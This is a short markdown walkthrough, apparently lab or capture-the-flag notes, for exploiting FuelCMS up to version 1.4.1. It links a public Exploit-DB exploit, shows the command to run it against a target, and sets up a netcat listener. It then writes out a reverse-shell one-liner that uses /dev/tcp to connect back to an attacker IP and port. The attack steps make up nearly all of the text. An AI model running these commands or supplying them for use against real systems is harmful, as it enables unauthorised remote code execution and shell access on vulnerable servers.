

# FuelCMS - Modify theme to include PHP code

## Requirements

 - FuelCMS version <= 1.4.1

## Exploitation

### Download the exploit 

https://www.exploit-db.com/exploits/50477


### Trigering the exploit

```
python exploit.py -u http://TARGET/ 

```


### Setting up a netcat listener

```
nc -lvnp 33334

```


### Get a stabilized shell

```
echo "sh -i >& /dev/tcp/10.18.65.3/33334 0>&1" > /tmp/shell.sh; bash /tmp/shell.sh

```


## References
 - https://www.getfuelcms.com/
 - https://www.exploit-db.com/exploits/50477
